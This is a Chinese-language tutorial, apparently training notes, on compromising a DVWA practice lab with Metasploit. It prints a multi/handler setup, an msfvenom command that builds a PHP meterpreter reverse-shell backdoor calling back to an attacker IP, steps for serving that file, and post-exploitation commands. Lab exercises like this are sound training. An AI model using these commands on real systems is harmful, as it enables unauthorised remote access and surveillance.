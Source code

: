 # 一、 环境准备

### 1 DVWA靶场

   DVWA下载：https://codeload.github.com/ethicalhack3r/DVWA/zip/master

注意：配置DVWA环境 准备PHP7.0以上，和 Nginx环境 
1 配置数据库密码  配置 config/config.inc.php.dist 文件（注意后门的 .dist要通过重命名删掉）
2 使用浏览器访问 http://XxIP/setup.php
3 红字问题解决
4 缺少key  直接替换下面2句  或者 访问https://www.google.com/recaptcha/admin/create
$_DVWA[ 'recaptcha_public_key' ] = '6LdJJlUUAAAAAH1Q6cTpZRQ2Ah8VpyzhnffD0mBb';
$_DVWA[ 'recaptcha_private_key' ] = '6LdJJlUUAAAAAM2a3HrgzLczqdYp4g05EqDs-W4K';
5 allow_url_include: Disabled  提示没开启
找到php目录里的php.ini allow_url_include  将后面参数OFF 改成On 修改完成重启Nginx生效

### 2 Metasploit任意平台

  可以是Windows版，可以是kali自带版

# 二、Metasploit配置监控及攻击载荷

1 配置监控-使用handler模块

use exploit/multi/handler

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/a2529fe010ac46108a0413b8153c08b0.png)  

2 配置攻击载荷设置payload

第一步设置payload

set payload php/meterpreter/reverse_tcp

第二步设置 lhost 和 lport  

set lhost xxxip ；   

set lport  xxx端口；

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/ad204b7bb1bc4c709f4d6948d4ef219a.png) 

3 生成php后门执行攻击获得meterpreter

新建一个终端在终端内输入

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.3.23 lport=4456 R>shell.php

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/1fa4967afb3f487f84926004d4ddc591.png)

3.2 传播- 使用Python简单的web服务

python -m SimpleHTTPServer 80

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/6604546c76d7471e9f332e81daf6c570.png)

将shell.php

3.3 执行攻击获得meterpreter

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/1003035b32a343488a282bddec48a62b.png)

run 或者exploit

获取到meterpreter 我们就可以做渗透操作了

比如 观看屏幕 可以在meterpreter里输入 

run vnc

查看当前账号可以在meterpreter里输入

getuid